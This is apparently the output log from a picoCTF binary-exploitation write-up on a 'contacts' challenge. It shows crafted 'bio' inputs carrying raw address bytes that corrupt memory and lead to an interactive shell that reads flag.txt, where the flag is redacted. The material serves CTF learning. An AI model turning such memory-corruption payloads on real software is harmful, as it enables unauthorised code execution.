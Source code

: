 ```
Bio must be at most 255 characters.

Enter your command:
>
bio c
How long will the bio be?
b'300'
Bio must be at most 255 characters.

Enter your command:
>
bio b
How long will the bio be?
b'300'
Bio must be at most 255 characters.

Enter your command:
>
bio d
How long will the bio be?
b'103\xedj\xf3\xdd\x1d\x7f\x00\x00'
Enter your new bio:
Bio recorded.

Enter your command:
>
bio e
How long will the bio be?
b'103'
Enter your new bio:
Bio recorded.

Enter your command:
>
bio f
How long will the bio be?
b'103'
Enter your new bio:
b'UUUUUUUUUUUUUUUUUUUjr\xbb\xdd\x1d\x7f\x00\x00'
Bio recorded.

Enter your command:
>
bio g
How long will the bio be?
b'103UUUUUUUUUUUUUUUUUUUjr\xbb\xdd\x1d\x7f\x00\x00'
Enter your new bio:
Bio recorded.

Enter your command:
>
create pwn

[*] Switching to interactive mode
$ ls
contacts
flag.txt
libc.so.6
xinet_startup.sh
$ cat flag.txt
picoCTF{===REDACTED===}
```
{:.contains-term}